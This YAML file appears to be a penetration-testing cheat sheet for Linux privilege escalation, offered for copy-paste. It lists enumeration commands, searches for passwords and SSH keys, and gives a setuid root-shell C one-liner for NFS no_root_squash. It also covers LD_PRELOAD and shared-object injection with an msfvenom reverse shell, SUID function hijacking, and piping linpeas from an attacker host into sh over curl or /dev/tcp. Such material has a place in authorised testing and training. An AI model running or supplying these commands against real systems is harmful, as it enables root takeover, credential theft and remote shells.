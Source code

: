 ```yaml
---
functions:
  privilege-escalation:
    - description: Simplistic and standard checklist for linux privilege escalation, in no particular order
      code: |
        Feel free to copy paste the entire listing below
        System Info Enum:
        - [ ] uname -a
        - [ ] cat /etc/issue
        - [ ] cat /etc/*-release
        - [ ] cat /proc/version
        - [ ] lsb_release -a
        - [ ] ps aux
        - [ ] lscpu
        - [ ] env
        - [ ] echo $PATH
        - [ ] sudo -l
        - [ ] hostname
        - [ ] mount
        - [ ] dpkg -l
        - [ ] cat /etc/fstab
        - [ ] ssh -V
        - [ ] /bin/lsblk
        - [ ] lsmod
        - [ ] sudo -V
        - [ ] ls -al /etc/iptables/* -R
        - [ ] ls -lah /etc/cron*
        - [ ] find / -iname *.bak 2>/dev/null
        - [ ] find / -iname *.backup 2>/dev/null
        - [ ] strace <bins in sudo>

        User Enum:
        - [ ] whoami
        - [ ] id
        - [ ] cat /etc/passwd
        - [ ] cat /etc/group
        - [ ] history

        Network Enum:
        - [ ] ip a
        - [ ] ifconfig
        - [ ] /sbin/route
        - [ ] netstat -plant

        Task Scheduling:
        - [ ] cat /etc/crontab
        - [ ] cat /etc/cron.d/*
        - [ ] cat /var/spool/cron/crontabs/*
        - [ ] cat  /var/spool/cron/*
        - [ ] systemctl list-timers --all
        - [ ] grep "CRON" /var/log/cron.log
        - [ ] Is CRON running but you can't tell what??  process monitoring (below scripts)
              nohup bash ./procmon.sh > procs.txt &
              cat procs.txt
              https://github.com/unkn0wnsyst3m/scripts/blob/master/procmon.sh
              https://github.com/DominicBreuker/pspy   nohup ./pspy64 -p -i 1000 > out &
              https://cronitor.io/cron-reference/how-to-list-all-cron-jobs

        File Systems #NoRootSquash
        - [ ] cat /etc/exports | grep no_root_squash
              showmount -e <targetip>  #mount -o rw,vers=2 <targetip>:<mountable-folder> <localmount>
              echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > shell.c
              gcc shell.c -o shell; chmod +s+x shell --> add to share

        Password Hunting:
        - [ ] grep --color=auto -rnw '/' -ie "PASSWORD=" 2>/dev/null
        - [ ] locate pass | more
        - [ ] find / -name id_rsa 2>/dev/null
        - [ ] find . -type f -exec grep --color=auto -Hrnwie "PASSWORD" {} 2> /dev/null \;  #search specific folders
        - [ ] find / -iname *passw* 2>/dev/null
        - [ ] find / -iname *passw* 2>/dev/null | grep -v -E "/lib/systemd/|boot|/var/lib/dpkg/|/usr/share/|/usr/lib/"

        (Shared Library) LD_PRELOAD:
        - [ ] sudo -l  #--> is LD_PRELOAD in the sudo permissions?
          https://github.com/unkn0wnsyst3m/scripts/blob/master/shell_ldpreload.c
          gcc -fPIC -shared shell.c -o shell.so -nostartfiles
          msfvenom -p linux/x64/shell_reverse_tcp -f elf-so -o utils.so LHOST=kali

          sudo LD_PRELOAD=/home/user/shell.so <BIN IN SUDO -l>

        (Shared Library) Hijack:
        - [ ] ls -al /etc/ld.so.conf.d/
        - [ ] ldd $(find / -perm -u=s -type f 2>/dev/null)  #look for paths you can edit and look for unlinked libraries
        - [ ] echo $LD_LIBRARY_PATH
              https://www.boiteaklou.fr/Abusing-Shared-Libraries.html

        SUID:
        - [ ] find / -perm -u=s -type f -ls 2>/dev/null

        SUID CHILD PATH BINARY TAKEOVER:
        strings /usr/local/bin/suid-env2
            --> /usr/sbin/service apache2 start
        function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s+x /tmp/bash && /tmp/bash -p; }
        export -f /usr/sbin/service
        execute - /usr/local/bin/suid-env2

        CAPABILITIES:
        - [ ] getcap -r / 2>/dev/null

        SHARED OBJECT INJECTION:
        - [ ] strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
            --> open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
          https://github.com/unkn0wnsyst3m/scripts/blob/master/shell.c
          gcc -fPIC -shared shell.c -o /home/user/.config/libcalc.so -nostartfiles

          run setuid_bin

        FILE PERMISSION SEARCHING:
        - [ ] find / -type f -perm -2 2>/dev/null | grep -v "^/proc/"                     #world writable
        - [ ] find / -user root -perm -002 -type f 2>/dev/null | grep -v "^/proc/"     #world writable ownd by root
        - [ ] ls -al $(find / -perm -1000 -type d 2>/dev/null)   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
        - [ ] ls -al $(find / -perm -g=s -type f 2>/dev/null)    # SGID (chmod 2000) - run as the group, not the user who started it.
        - [ ] ls -al $(find / -perm -u=s -type f 2>/dev/null)    # SUID (chmod 4000) - run as the owner, not the user who started it.
        - [ ] find / -perm -u=s -type f -ls 2>/dev/null
        - [ ] find / -xdev -user root -perm -o+w -type f 2>/dev/null
        - [ ] find / -xdev -group admin -perm -o+w -type f 2>/dev/null
        

        QUICK WINS:
        - [ ] dpkg -l | grep nginx  # l.6.2 nginx (and earlier) and writable log dir with sudo suid CVE-2016-1247
          https://github.com/unkn0wnsyst3m/scripts/blob/master/nginx-CVE-2016-1247.sh
        - [ ] ps aux | grep mysqld  # running as root?
          https://mfnttps.github.io/mfnttps/mysql-code_exec/
        - [ ] cat /etc/exports | grep no_root_squash  #see above
        - [ ] groups | grep docker && ls -al /var/run/docker.sock
          https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-docker-socket

    - description: LinPeas
      code: |
        curl http://10.10.10.10/linpeas.sh | sh
        cd /tmp; wget http://10.10.10.10/linpeas.sh && sh linpeas.sh

        sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
        cat < /dev/tcp/10.10.10.10/80 | sh #Victim

        # Output to file
        ./linpeas.sh -a > /dev/shm/linpeas.txt

    - description: Linux Exploit Suggester
      code: |
        perl linux-exploit-suggester.pl

          #############################
            Linux Exploit Suggester 2
          #############################

          Local Kernel: 2.6.32
          Searching 72 exploits...

          Possible Exploits
          [1] american-sign-language
              CVE-2010-4347
              Source: http://www.securityfocus.com/bid/45408
          [2] can_bcm
              CVE-2010-2959
              Source: http://www.exploit-db.com/exploits/14814

        ...
        ...

        Use the -k flag to manually enter a wildcard for the kernel/operating system release version.
        perl linux-exploit-suggester.pl -k 3



resources: |
  https://github.com/jondonas/linux-exploit-suggester-2/blob/master/linux-exploit-suggester-2.pl
  https://github.com/SecWiki/linux-kernel-exploits
  https://github.com/lucyoa/kernel-exploits
  https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
  #c-shell: echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > shell.c 
  #script: cp /bin/bash /tmp/shell && chmod +s /tmp/shell && chmod o+x /tmp/shell
---
```



